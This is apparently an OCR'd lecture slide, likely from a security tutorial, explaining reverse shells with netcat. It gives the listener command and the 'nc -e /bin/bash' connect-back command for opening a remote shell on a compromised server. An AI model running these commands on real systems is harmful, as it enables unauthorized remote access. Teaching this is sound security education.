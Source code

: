 # Reverse shells

- Typing commands into a webpage is annoying!
- Can we get a shell?
- Normally when you get a shell via SSH, you are the one connecting to a server
- Reverse shells are, as the name implies, the reverse of that process. The server tries to connect to you
- The server has to be able to initiate a connection to you, so you need a public facing server (eduroam blocks this)
- SSH in my server if you need to

##### nc

- Remember nc(netcat)? It can also be used to listen on a port

- nc -lvnp [PORT#]

- - l for listen, v for verbose, n for no DNS, p for port

- Some versions of nc allows you to connect to a port then execute a command

- - nc -e [PROGRAM] [IP] [PORT]
  - Obviously this is a huge security vulnerability
  - Not all nc versions support this

- You can execute “nc -e /bin/bash” on the remote server, “nc -lvnp” on your machine and let it connect to you!